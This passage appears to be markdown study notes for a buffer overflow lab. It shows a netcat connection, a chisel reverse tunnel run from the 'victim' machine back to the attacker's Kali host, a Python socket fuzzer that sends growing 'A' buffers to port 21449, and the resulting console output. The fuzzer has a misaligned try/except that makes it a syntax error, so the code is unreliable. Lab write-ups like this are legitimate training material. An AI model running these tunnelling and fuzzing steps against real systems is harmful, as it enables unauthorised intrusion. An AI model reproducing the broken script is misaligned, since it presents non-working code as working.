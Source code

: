 - For remote buffer overflow to connect to the target and check a specific port you can use netcat `nc -nv IP.IP.IP.IP PORT`

### 1. Fuzzing parameters

- Remote fuzzing
  - `netstat -a` | to check if the bin listens on a specific port
    ```DOS
    Proto  Local Address          Foreign Address        State
    TCP    0.0.0.0:21449          IEWIN7:0               LISTENING
    ```
   - You will need chisel
     On your attacking machine `./chisel server -reverse`  
     On your victim machine .\chisel.exe client IP-DE-KALI:8080 R:21449:127.0.0.1:21449
   - From your attacking machine
     `.\nc.exe 127.0.0.1 PortNumber` | to interact with the bin remotely
    - Start fuzzing
      ```python
      import socket
      from struct import pack

      IP = "127.0.0.1"
      port = 21449

      def fuzzing():
         try:
             for i in range(0,10000,500):
                 buffer = b"A"*i
                 print("Fuzzing %s bytes" % i)
                 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                 s.connect((IP, port))
                 s.send(buffer)
                 breakpoint() 
                 # To follow in console until you reach the error you can type c and enter
                 s.close()
             except:
                 print("Could not establish a connection")
      fuzzing()
      ```
      Here is how it looks in your console:
      ```bash
      ┌──(kali㉿kali)-[~/Documents/bof]
      └─$ python3 fuzz.py
      Fuzzing 0 bytes
      > /home/kali/Documents/bof-htb/assessment.py(16)fuzzing()
      -> s.close()
      (Pdb) c
      Fuzzing 500 bytes
      > /home/kali/Documents/bof-htb/assessment.py(15)fuzzing()
      -> breakpoint()
      (Pdb)
      ```
      